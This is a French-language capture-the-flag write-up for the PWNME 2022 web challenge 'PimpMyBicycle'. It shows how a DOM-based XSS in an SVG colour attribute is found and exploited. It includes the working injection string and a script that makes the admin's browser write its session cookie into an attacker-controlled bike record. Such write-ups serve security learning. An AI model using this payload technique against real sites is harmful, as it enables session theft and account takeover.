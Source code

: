 ```yaml
---
title: "🇫🇷 PWNME - PimpMyBicycle"
date: 2022-07-07
draft: false
tags: [web]
# image: "/image/blog-pic.jpg"
description: "XSS DOM-based dans un SVG"
showDate: true          # to enable/disable showing dates
math: true              # to enable showing equations (katex)
---
```


[Go back to write-ups list](../)

*This write-up is in French because it's a French CTF, sowwy*

> **Category:** Web
> 
> **Creator:** Eteck
> 
> **Description:**
> 
> Your friend just had an idea: allow everyone to create the bike of their dream ! He asks you to verify if his website is secure, since you're the best pentester he knows.
>
> **Find a way to access the admin page**
>
> *note: admin doesn't have access to the internet ! He is behind a very restrictive firewall, and he can only be on his own website*

## Fonctionnement du site web

Je vais sauter la partie où on crée un compte pour aller directement à l'interface intéressante : l'interface où l'on peut pimper notre vélo !

![Page web](/image/pwnme22/pmb_intro.png)

Au delà de l'éditeur de vélo à gauche, on a 3 fonctionnalités : créer un vélo aléatoire, sauvegarder un nouveau vélo et sauvegarder le vélo actuel (le modifier en quelques sortes).

En lisant le Javascript de la page, on peut trouver les fonctions qui s'occupent d'enregistrer le vélo :

```js
function saveBuild() {
  let result = [];
  for (const customElement of editor.getCustomElements()) {
    result.push({
      id: customElement.element.id,
      slot: customElement.slot.id,
      colors: customElement.colors,
    });
  }
  return JSON.stringify(result);
}

function save() {
  $.post("/?page=preview&action=saveBike", { data: saveBuild() }).then(
    (id) => (document.location = "/?page=preview&id=" + id)
  );
}

function edit() {
  $.post("/?page=preview&action=editBike&id=" + getParamId(), {
    data: saveBuild(),
  }).then(() => document.location.reload(false));
}
```

## Recherche de XSS

Comme on peut s'en douter, les paramètres de cette classe `CustomElement` qui sont sauvegardés (notamment la couleur) seront ensuite réinjectés dans la page lorsque que l'on charge un vélo. Pour vérifier cette hypothèse, j'ai tenté d'injecter du HTML dans un des attribut couleur, puis de sauvegarder le vélo.

```js
editor.getCustomElements()[1].colors[0] = '"></path></svg><span>coucou les gens</span>'
```

Et bingo ! Le texte est apparu à la place de la roue !

![DOM based](/image/pwnme22/pmb_dom.png)

Si on met une balise `<script>` à la place du `<span>`, on peut facilement deviner que le script sera exécuté. Il en est de même sur la page de preview du vélo que l'admin consulte lorsqu'on lui soumet un vélo. C'est ce qu'on appelle une XSS DOM-based.

## Création du payload

Réfléchissons maintenant à un script qui pourrait récupérer le cookie de session de l'admin. Beaucoup se sont fait avoir, mais j'ai lu la description donc je sais qu'on ne peux pas l'envoyer à un site externe. Par contre, on peut probablement demander à l'admin d'éditer un de nos vélos. J'ai donc récupérer le JSON qui est envoyé lorsqu'on sauvegarde un vélo, et j'ai écrit un script pour y intégrer le cookie de session :

```js
let data = JSON.stringify([{
    "id":"roue1",
    "slot":0,
    "colors": ["\"></path></svg><h1>Pour Cyxo : " + document.cookie + "</h1>","#FFFFFF"]
}]);

$.post("/?page=preview&action=editBike&id=150", {
    data: data,
}).then(() => document.location.reload(false));
```

*150 étant l'id d'un vélo aléatoire créé précédemment*

En rendant ce payload moche et sur une seule ligne, on peut l'insérer dans une balise script de notre vélo malveillant et l'envoyer en production à l'administrateur. Après un cours délai, l'admin nous informe gentillement que notre vélo va être créé.

![Nice admin, nice](/image/pwnme22/pmb_admin.png)

Ce qui veut dire que l'admin a exécuté notre script ! On peut alors retourner sur le fameux vélo #150, et surprise :

![Miam les cookies](/image/pwnme22/pmb_cookie.png)

En volant ce cookie, on a désormais accès à l'interface d'administration et au flag !

[Go back to write-ups list](../)